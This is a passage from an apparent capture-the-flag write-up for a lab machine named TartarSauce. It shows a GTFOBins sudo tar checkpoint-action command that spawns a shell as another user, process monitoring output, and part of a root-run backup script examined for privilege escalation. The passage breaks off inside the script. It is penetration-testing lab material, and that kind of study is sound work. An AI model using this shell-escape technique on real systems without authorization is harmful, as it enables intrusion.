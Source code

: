 From GTFOBins, we can use this command to get a shell as the user:

```bash
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

<figure><img src="../../../.gitbook/assets/image (536).png" alt=""><figcaption></figcaption></figure>

We can now grab the user flag.&#x20;

### Backuperer

I ran LinPEAS to enumerate further for me, which found a few possible leads but it all led to dead ends. I then ran `pspy32` to double check on processes by all users. This was when I saw this process:

```
2023/05/02 11:14:41 CMD: UID=0    PID=23714  | /bin/bash /usr/sbin/backuperer 
2023/05/02 11:14:41 CMD: UID=0    PID=23719  | /bin/sleep 30
```

There's a program `backuperer` being run by `root` periodically. This was actually a `bash` script, and here's its contents:

```bash
onuma@TartarSauce:/tmp$ cat /usr/sbin/backuperer
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &
```